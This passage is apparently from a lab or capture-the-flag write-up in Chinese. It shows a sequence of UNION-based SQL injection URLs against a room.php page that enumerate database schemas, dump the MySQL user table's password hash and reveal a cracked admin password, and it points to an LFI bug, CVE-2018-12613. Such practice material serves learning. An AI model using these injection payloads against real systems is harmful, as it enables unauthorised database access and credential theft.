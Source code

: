 ![image](https://hackmd.io/_uploads/HJKwjnxfR.png)

```url=
http://10.10.10.143/room.php?cod=100%20union%20select%201,group_concat(table_name),3,4,5,6,7%20from%20information_schema.tables%20where%20table_schema=%27hotel%27;%20--%20-
```

![image](https://hackmd.io/_uploads/r1Qr3neMA.png)

```url=
http://10.10.10.143/room.php?cod=100%20union%20select%201,group_concat(column_name),3,4,5,6,7%20from%20information_schema.columns%20where%20table_name=%27room%27;%20--%20-
```

![image](https://hackmd.io/_uploads/rkTpnnlGA.png)

```url=
http://10.10.10.143/room.php?cod=100%20union%20select%201,group_concat(table_name),3,4,5,6,7%20from%20information_schema.tables%20where%20table_schema=%27mysql%27;%20--%20-
```

> column_stats,columns_priv,db,event,func,general_log,gtid_slave_pos,help_category,help_keyword,help_relation,help_topic,host,index_stats,innodb_index_stats,innodb_table_stats,plugin,proc,procs_priv,proxies_priv,roles_mapping,servers,slow_log,table_stats,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user`

```url=
http://10.10.10.143/room.php?cod=100%20union%20select%201,group_concat(column_name),3,4,5,6,7%20from%20information_schema.columns%20where%20table_name=%27user%27;%20--%20-
```

> Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string,password_expired,is_role,default_role,max_statement_time


```url=
http://10.10.10.143/room.php?cod=100%20union%20select%201,user,3,4,password,6,7%20from%20mysql.user;%20--%20-
```

DBadmin：2D2B7A5E4E637B8FBA1D17F40318F277D29964D0：	imissyou

我們拿到了剛剛進不去的那裏的帳密了

![image](https://hackmd.io/_uploads/SJEoA2lMC.png)

而剛剛我還有找到(網路上)它有另一個漏洞CVE-2018-12613
是一個lfi的漏洞
https://blog.csdn.net/qq_34444097/article/details/85264686


裡面有個叫 pepper 的user
